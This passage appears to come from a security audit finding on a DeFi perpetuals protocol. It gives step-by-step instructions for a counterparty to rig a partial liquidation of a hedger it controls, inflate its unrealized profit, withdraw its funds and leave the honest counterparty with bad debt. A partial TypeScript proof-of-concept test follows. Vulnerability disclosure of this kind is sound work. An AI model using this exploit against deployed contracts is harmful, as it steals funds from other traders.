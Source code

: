 2. At the same time, partyA opens 2 opposite (LONG and SHORT) positions with controlled partyB2 with minimally accepted allocated balance (with slightly different sizes, so that if price goes against partyA, partyB2 will be liquidatable)

3. When price goes against partyA (it has large loss in a position with partyB), partyB2 becomes liquidatable

4. partyA uses controlled liquidator to liquidate partyB2 and calls `liquidatePositionsPartyB` but only with `quoteId` of the LONG position (which is in a loss for partyA)

5. After that, partyA will have a very large profit from its SHORT position with partyB2, which will offset the loss from LONG position with partyB (LONG position with partyB2 is liquidated). partyA can deallocate it's full allocated balance, as the artificial unrealized profit allows to do this.

6. Any liquidator can finish liquidating partyB2, at this point partyA will go into bad debt, but since its allocated balance is 0, after partyA liquidation - partyB won't get anything and will lose all its profit. Effectively partyA has stolen funds from partyB.

It is also possible to just outright steal all funds from the protocol by using another bug (liquidation of partyA to inflate allocated balances of controlled partyB), but that's out of context of this bug.

## Impact

Any partyA which is in a loss on any of its position, can exploit the bug to temporarily inflate upnl and deallocate all funds at the expense of the other party, which won't get the profit from partyA positions due to bad debt.

Combining it with the other bug allows to steal all protocol funds.

## Code Snippet

Add this to any test, for example to `ClosePosition.behavior.ts`.

```ts
it("PartyA upnl boost off picky partyB position liquidation", async function () {
  const context: RunContext = this.context;

  this.user_allocated = decimal(1000);
  this.hedger_allocated = decimal(1000);
  this.hedger2_allocated = decimal(77);

  this.user = new User(this.context, this.context.signers.user);
  await this.user.setup();
  await this.user.setBalances(this.user_allocated, this.user_allocated, this.user_allocated);

  this.hedger = new Hedger(this.context, this.context.signers.hedger);
  await this.hedger.setup();
  await this.hedger.setBalances(this.hedger_allocated, this.hedger_allocated);

  this.hedger2 = new Hedger(this.context, this.context.signers.hedger2);
  await this.hedger2.setup();
  await this.hedger2.setBalances(this.hedger2_allocated, this.hedger2_allocated);

  this.liquidator = new User(this.context, this.context.signers.liquidator);
  await this.liquidator.setup();

  // open position (100 @ 10)
  await this.user.sendQuote(limitQuoteRequestBuilder().quantity(decimal(100)).price(decimal(10)).build());
  await this.hedger.lockQuote(1, 0, decimal(1));
  await this.hedger.openPosition(1, limitOpenRequestBuilder().filledAmount(decimal(100)).openPrice(decimal(10)).price(decimal(10)).build());

  // open 2 opposite direction positions with user-controlled hedger to exploit them later
  // (positions with slightly different sizes so that at some point the hedger can be liquidated)
```